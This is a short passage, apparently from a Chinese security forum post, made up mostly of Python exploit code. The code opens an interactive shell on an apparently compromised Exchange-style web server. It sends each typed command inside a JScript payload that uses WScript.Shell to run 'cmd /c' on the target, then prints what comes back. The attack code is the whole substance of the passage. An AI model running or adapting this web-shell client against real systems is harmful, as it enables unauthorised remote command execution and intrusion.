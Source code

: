 ```python
        sys.exit()
    print("下面启用交互式shell")
    while True:
        input_cmd = input("[#] command: ")
        data={"code": """Response.Write(new ActiveXObject("WScript.Shell").exec("cmd /c %s").stdout.readall())""" % input_cmd}
        ct = requests.post(
            final_shell,
            data=data,verify=False, proxies=proxies)
        if ct.status_code != 200 or "OAB (Default Web Site)" not in ct.text:
            print("[*] Failed to execute shell command")
        else:
            shell_response = ct.text.split(
                "Name                            :")[0]
            print(shell_response)
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-e9e24752f4cfe93b1adf1557246bae800e9552b5.png)